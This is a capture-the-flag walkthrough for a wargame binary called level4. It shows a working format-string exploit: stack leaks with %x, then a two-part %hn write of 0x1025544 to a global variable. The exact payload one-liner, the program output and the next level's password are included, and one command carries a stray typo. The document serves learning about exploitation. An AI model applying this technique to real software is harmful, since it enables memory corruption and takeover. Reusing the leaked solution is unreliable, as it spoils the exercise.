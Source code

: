 # Level4 Walkthrough

## Analyzing the Program with GDB
- We can see 3 functions : main, n, p (`watch source.c`)
- The address of m is : `0x8049810`
- m is waiting for 16,928,116 bytes so 0x1025544, but its too long so we'll split it into two values, we cant send those byte.
- 0x1025544 in 32-bit hexadecimal can be split into:
Lower 16 bits (0x5544): Decimal 21828.
Upper 16 bits (0x0102): Decimal 258.

Lets go.

## Running the program
-  Lets see, where is the position of m : 
    ```
    python -c 'print "aaaa" + " %x" * 60' | ./level4
    aaaa b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 `61616161` 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 a 0 0
    ```
    `%x * 60` : Every `%x` read and print an hexa value from the stack. We'll read 60 hexa value of the stack, for example: 

- So now, lets try with the return value convert in little endian 
```
python -c 'print "\x10\x98\x04\x08" + " %x" * 60' | ./level4
 b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 `8049810` 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 a 0 0
```

- So at the twelve position and thirteen position, lets send total of 0x1025544. 

- Use of %hn to write only 2 bytes (16 bits) at a time to the appropriate addresses, and we'll target 2 addresses : m (0x8049810) for the lower 16 bits and m + 2 (0x8049812) for the upper 16 bits.

- Now we can send it in two parts: 
```
python -c 'print "\x10\x98\x04\x08\x12\x98\x04\x08" + "%21820d%12$hn" + "%43966d%13$hn"' > | /tmp/exploit4

```
then we use the exploit : 
``` cat /tmp/exploit4 | ./level4
```

## Moving to level5

1. **Swith User to level5**:
    Run ```su level5```

2. **Authenticate with the Password**:
    We used the password we found.
    0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a